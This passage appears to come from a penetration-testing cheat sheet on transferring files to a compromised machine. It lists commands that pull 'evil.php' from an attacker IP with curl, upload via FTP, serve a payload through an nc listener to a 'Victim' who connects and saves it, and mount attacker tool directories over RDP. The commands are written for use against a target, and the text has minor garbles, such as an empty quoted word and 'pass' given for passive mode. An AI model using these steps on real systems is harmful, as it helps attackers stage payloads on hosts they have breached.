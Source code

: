 #### Linux

```console
curl http://192.168.42.42/evil.php --output evil.php
```

### FTP

If there is an ftp server which we have access, we can upload files there through it, the "" is the same for both, windows or linux:

```console
Connect and login with:

ftp 192.168.42.42

Upload the files with:

put evil.py

Sometimes is needed to enter in passive mode before doing anything, if is the case, just type:

pass

followed by enter
```

### Sockets

Using nc/ncat is possible to create as a listener to upload/download stuff through them, the syntax for nc and ncat is basically the same.
Create the socket with:

```console
Attacker:
  nc -lvnp 443 < evil.php

For both cases from windows, the only difference is to write nc.exe

Victim:
  nc -v 192.168.42.42 443 > evil.php
```

### RDP

If we have access to a windows machine with a valid user/credentials and this user is in the "Remote Desktop Users", we can share a local directorie as a mount volume through rdp itself once we connect to the machine:

#### Linux

##### Mounting volume

```console
rdesktop -g 1600x800 -r disk:tmp=/usr/share/windows-binaries 192.168.30.30 -u pelota -p -
```
